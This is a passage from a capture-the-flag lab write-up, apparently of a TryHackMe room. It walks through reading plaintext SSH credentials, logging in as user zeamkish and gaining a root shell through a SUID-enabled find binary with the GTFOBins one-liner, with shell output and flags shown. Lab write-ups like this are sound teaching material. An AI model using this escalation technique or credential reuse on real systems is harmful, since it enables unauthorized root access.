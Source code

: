 ```s
cat: flag.txt: Permission denied
```

After gaining into the machine, we see we can get into the zeamkish directory. We don't have permission. How about the ssh_creds.txt. Let us find out

```r
$ cat ssh_creds.txt
SSH CREDS
zeamkish
easytohack@123
```
That would be a password: ``easytohack@123``
Let's try and use that and login into zeamkish account

``ssh zeamkish@10.10.222.102``
```r
zeamkish@ip-10-10-222-102:~$ ls -l
total 8
-rw-r----- 1 zeamkish zeamkish 27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish 34 Jun 11  2023 ssh_creds.txt
zeamkish@ip-10-10-222-102:~$ cat flag.txt 
THM{USER_FLAG_1231_EXPOSE}
```

``FLAG ONE: THM{USER_FLAG_1231_EXPOSE}``

### Privilege Escalation:
From the look of things the user cannot run ``sudo``
```r
zeamkish@ip-10-10-222-102:~$ sudo -l
[sudo] password for zeamkish: 
Sorry, user zeamkish may not run sudo on ip-10-10-222-102.
zeamkish@ip-10-10-222-102:~$
```

Now, let’s look for any binaries with SUID bit set

``find / -type f -perm -u=s 2>/dev/null``
From the response we can see that we have the find binary with SUID bit set.

![](https://miro.medium.com/v2/resize:fit:700/1*9ndEp48tdTJtxt8D8XNgSQ.png)

We can use the [**GTFobins**](https://gtfobins.github.io/gtfobins/find/#suid) script to escalate our privilege.

/usr/bin/find . -exec /bin/sh -p \; -quit

After running the above command we got a root shell.

```r
zeamkish@ip-10-10-222-102:~$ /usr/bin/sudo cd /root
[sudo] password for zeamkish: 
zeamkish is not in the sudoers file.  This incident will be reported.
zeamkish@ip-10-10-222-102:~$ /usr/bin/fin
finalrd  fincore  find     findmnt  
zeamkish@ip-10-10-222-102:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# ls
flag.txt  ssh_creds.txt
# cat flag.txt	
THM{USER_FLAG_1231_EXPOSE}
# ls -l /root	
total 8
-rw-r--r-- 1 root root   23 Jun 11  2023 flag.txt
drwxr-xr-x 4 root root 4096 May 25  2023 snap
# cat /root/flag.txt
```
